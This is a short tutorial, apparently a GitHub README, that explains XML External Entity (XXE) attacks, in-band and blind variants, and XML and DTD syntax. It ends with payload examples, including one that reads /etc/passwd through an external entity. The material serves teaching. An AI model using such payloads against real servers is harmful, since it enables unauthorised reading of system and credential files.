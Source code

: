 # What is an xxe attack ? 

> An xxe attack is carried using xml this attack abuses the features of xml. Using this vulnerability you can cause all kinds of problems such as denial of service attack [dos] or even SSRF which makes request to other applications on your behalf. 

There are two types of xxe attacks namely: 

1. IN-BAND 
1. OUT-OF-BAND a.k.a blind xxe. 

## Difference between the two: 

> 1) An in-band XXE attack is the one in which the attacker can receive an immediate response to the XXE payload.

> 2) out-of-band XXE attacks (also called blind XXE), there is no immediate response from the web application and attacker has to reflect the output of their XXE payload to some other file or their own server.

## Syntax

Each and every xml file has a prolog which specifies which xml version is being used and its encoding format. 

````
<?xml version="1.0" encoding="UTF-8"?> // prolog 
<mail> // root element 
   <to>falcon</to> //child elements
   <from>feast</from>
   <subject>About XXE</subject>
   <text>Teach about XXE</text>
</mail> //end of root element

````
# What is .dtd in xml ? 

DTD stands for documetn type definition. Remember the days when we use to write <!doctype html> yup that !doctype tag is being used here too. 

## Example 

Let me show a example for better understanding: 

Filename: note.dtd
````
<!DOCTYPE note [ <!ELEMENT note (to,from,heading,body)> <!ELEMENT to (#PCDATA)> <!ELEMENT from (#PCDATA)> <!ELEMENT heading (#PCDATA)> <!ELEMENT body (#PCDATA)> ]>
````
Here's what they mean: 
!DOCTYPE note -  Defines a root element of the document named note
!ELEMENT note - Defines that the note element must contain the elements: "to, from, heading, body"
!ELEMENT to - Defines the to element to be of type "#PCDATA"
!ELEMENT from - Defines the from element to be of type "#PCDATA"
!ELEMENT heading  - Defines the heading element to be of type "#PCDATA"
!ELEMENT body - Defines the body element to be of type "#PCDATA"

*NOTE:* #PCDATA means parseable character data.

we use this dtd file to validate the information for your xml document and make sure that the xml file gives the same shape as intended. Check out it's output below.

Filename: note.dtd

````
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
    <to>falcon</to>
    <from>feast</from>
    <heading>hacking</heading>
    <body>XXE attack</body>
</note>

````

## SOME PAYLOAD EXAMPLES: 

Here's how you can read system files using xml. 

````
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
````

Here's how you can replace data using xml. 

````
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>
````
